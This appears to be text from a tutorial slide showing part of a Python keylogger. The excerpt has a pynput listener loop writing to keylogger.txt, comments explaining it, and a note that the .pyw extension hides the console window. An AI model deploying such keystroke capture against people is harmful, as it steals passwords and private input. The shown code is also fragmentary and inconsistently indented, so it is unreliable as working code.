

if __name__ == "__main__":
    with Listener(
            on_press=on_press,

            on_release=on_release) as listener:

	listener.join()
    with open("keylogger.txt", "a") as f:
        f.write("\n\n")
        f.write("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")
        f.write("\n\n")
// main method
// we are making a context manager named as Listener where with keyboard is used hence here we do not need to close, it works automatically.So if the key is pressed then use on press method.
//if key release then on release method invoked
// therefore here we recording the keyboard strokes continuously
// here we are splitting the sessions.

For this project we are using .pyw extension file instead of .py because PYW files are used in Windows to indicate a script needs to be run using PYTHONW.EXE instead of PYTHON.EXE in order to prevent a DOS console from popping up to display the output. This patch makes it possible to import such scripts, in case they're also usable as modules.